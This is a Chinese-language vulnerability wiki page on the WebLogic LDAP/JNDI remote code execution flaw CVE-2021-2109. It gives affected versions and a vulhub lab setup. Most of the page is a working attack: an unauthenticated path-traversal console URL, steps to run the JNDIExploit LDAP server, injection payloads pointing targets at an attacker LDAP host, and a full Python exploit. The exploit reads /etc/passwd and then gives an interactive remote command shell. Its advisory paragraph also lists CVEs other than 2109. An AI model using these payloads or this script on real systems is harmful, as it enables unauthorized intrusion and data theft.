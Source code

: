 # Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

> [!NOTE]
>
> WebLogic Server 10.3.6.0.0
>
> WebLogic Server 12.1.3.0.0
>
> WebLogic Server 12.2.1.3.0
>
> WebLogic Server 12.2.1.4.0
>
> WebLogic Server 14.1.1.0.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](image/weblogic-1.png)

## 漏洞复现

访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%252e%252e%252f/consolejndi.portal

![](image/weblogic-6.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP启动脚本

[下载链接](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11)

![](image/weblogic-7.png)

下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![](image/weblogic-8.png)

> [!NOTE]
>
> 部分服务器注意放行端口

然后配合 Weblogic未授权范围 命令执行

```
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

> [!NOTE]
>
> 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;

![](image/weblogic-9.png)

登录后台可使用此POC，未授权的话用上面的

```
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

## 漏洞利用POC

> [!NOTE]
>
> 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
>
> 如果使用其他的利用Ldap服务请自行更改 POC关键字
>
> 此POC仅仅检验有未授权的情况

```python
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Weblogic 多个版本                                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mLDAP        >>> ldap://xxx.xxx.xxx;xxx:1389                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "root:" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

def POC_2(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    ldap_url = str(input("\033[35mLdap >>> \033[0m"))
    POC_1(target_url, ldap_url, cmd="cat /etc/passwd")

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, ldap_url, cmd)

```

![](image/weblogic-10.png)

## Goby & POC

> [!NOTE]
>
> Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109
>
> 注意漏洞验证 Ldap参数同样跟上面的POC一样格式，注意分号

![](image/weblogic-11.png)

